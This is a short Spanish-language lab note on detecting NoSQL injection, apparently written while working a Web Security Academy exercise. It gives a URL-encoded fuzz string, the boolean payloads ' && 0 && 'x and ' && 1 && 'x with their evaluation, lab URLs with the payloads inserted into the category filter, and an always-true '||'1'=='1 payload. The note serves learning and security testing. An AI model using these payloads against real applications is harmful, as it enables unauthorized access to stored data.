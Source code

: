```yaml
---
layout: default
title: 1 - Detecting NoSQL injection
---
```

Para detectar un error enviamos una fuzz string :

```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

```
'"`{
;$Foo}
$Foo \xYZ
```

```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```


---

### 🔍 ¿Qué significa `' && 0 && 'x`?

Esto es una **inyección lógica** que se traduce así en lógica booleana:

```
'+%26%26+0+%26%26+'x
```

```javascript
'string' && 0 && 'x'
```

Evaluación paso a paso:

1. `'string'` es **true** en JavaScript.
    
2. `true && 0` = **0** → que es falso.
    
3. `0 && 'x'` = sigue siendo **0** (falso).
    

Entonces, la condición **es falsa** y debería impedir que los datos se devuelvan (dependiendo de cómo se use la condición en la consulta).

---

### ✅ ¿Y qué hace `' && 1 && 'x`?

Evaluamos:

```
'+%26%26+1+%26%26+'x
```


```javascript
'string' && 1 && 'x'
```

1. `'string'` → **true**
    
2. `true && 1` = **1** (truthy)
    
3. `1 && 'x'` = **'x'** (truthy)
    

Así que el resultado es **truthy** y la condición permite que la consulta continúe.

---

No carga

```
https://0a8e00a703d8592681e1a24100fe00ab.web-security-academy.net/filter?category=LifeStyle%27+%26%26+0+%26%26+%27x
```

Carga

```
https://0a8e00a703d8592681e1a24100fe00ab.web-security-academy.net/filter?category=Lifestyle%27+%26%26+1+%26%26+%27x
```

or 1=1 -- - version nosql : 

```
'||'1'=='1
%27%7c%7c%27%31%27%3d%3d%27%31
```
